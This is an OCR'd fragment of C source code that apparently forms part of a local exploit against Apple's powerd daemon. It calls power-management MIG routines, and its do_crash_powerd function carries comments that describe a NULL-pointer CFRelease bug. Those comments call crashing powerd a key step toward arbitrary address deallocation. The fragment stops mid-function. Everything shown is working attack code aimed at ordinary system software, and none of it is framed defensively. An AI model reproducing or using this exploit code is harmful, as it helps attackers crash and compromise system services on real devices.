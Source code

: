 ```c
#endif
    ret = 0;

    kr = io_ps_update_pspowersource(sp,
                                    psid,
                                    (vm_offset_t) CFDataGetBytePtr(obj),
                                    (uint32_t)CFDataGetLength(obj),
                                    &ret);

    if (ret != 0) {
        printf("io_ps_update_pspowersource() -> kr = %x,ret = 0x%x -> %s \n",kr,ret, mach_error_string(kr));
        printf("Provided psid (0x%x) is not found, exiting, err=0x%x .. \n",psid,ret);
        //abort();
    }
    CFRelease(obj);
    obj = NULL;
#if 0
    printf("io_ps_update_pspowersource() -> kr = %x,ret = 0x%x -> %s \n",kr,ret, mach_error_string(kr) );
    DumpHex((void*)data, cnt);
#endif
    if(Dict1) {
        CFRelease(Dict1);
        Dict1 = NULL;
    }
}

void do_io_pm_last_wake_time(mach_port_t sp)
{
    vm_offset_t wakeData,deltaData;
    wakeData = deltaData = 0;
    uint32_t wakeDataCnt,deltaDataCnt;
    wakeDataCnt = deltaDataCnt = 0;
    kern_return_t kr = 0;
    int ret = 0;
    kr = io_pm_last_wake_time(sp,&wakeData,&wakeDataCnt,
                              &deltaData,&deltaDataCnt,&ret);
#if 0
    printf("io_pm_last_wake_time() : \nkr = %d ,wakeData = 0x%lx,wDcnt = 0x%x "
           ",deltaData =0x%lx,deltaDataCnt = 0x%x, ret = 0x%x\n"
           ,kr,wakeData,wakeDataCnt,deltaData,deltaDataCnt,ret);
    DumpHex((void*)wakeData,wakeDataCnt);
    DumpHex((void*)deltaData,deltaDataCnt);
#endif
}

// this will crash powerd, very important step to make arbitrary address deallocation
static void do_crash_powerd(void)
{
    /*
     kern_return_t _io_ps_update_pspowersource(...) {
     details = (CFMutableDictionaryRef)IOCFUnserialize((const char *)details_ptr, NULL, 0, NULL);
     ...

     if (kIOReturnSuccess != *return_code) { <-- it doesn't check if details is NULL
        CFRelease(details); <-- passing NULL ptr here
     }
     */
    printf("[+] Killing powerd and force it to restart\n");
    do_prepare_data();
    uint32_t s = 4096;
    uint8_t *b = malloc(s);
```